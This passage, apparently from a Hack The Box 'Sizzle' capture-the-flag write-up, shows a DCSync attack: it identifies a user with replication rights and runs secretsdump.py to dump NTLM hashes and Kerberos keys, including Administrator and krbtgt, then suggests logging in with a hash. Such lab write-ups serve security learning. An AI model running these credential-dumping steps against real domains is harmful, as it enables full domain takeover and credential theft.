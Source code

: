 By Checking the Queries, I can see mrlky is in DCSync Rights. So We can do DCSync attacks.

![Untitled](/img/htb-sizzle/test%201.png)

MRLKY has both GetChanges and GetChangesAll, which is what we want, to do a DCSync Attack. We can also check that by right click the path and `?Info` will reveal how to abuse it.

![Untitled](/img/htb-sizzle/Untitled%209.png)

There are many ways to do DCSync Attack but secretsdump.py is the easiest way to do it. Here we need to give user mrlky and his password. It will dump all the hash.

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# secretsdump.py mrlky@10.10.10.103
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:acab2862d095070be6c564b548e5bff2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:dbea0033f1f2c77592c41043ce7e565eee411c06ff6b264d320c7e3b2dd2c9fc
SIZZLE$:aes128-cts-hmac-sha1-96:0828b305826a82e0bb1b1141a2d757f6
SIZZLE$:des-cbc-md5:7f5dcd5e0b80adfe
[*] Cleaning up...
```

We can use the hash to login.
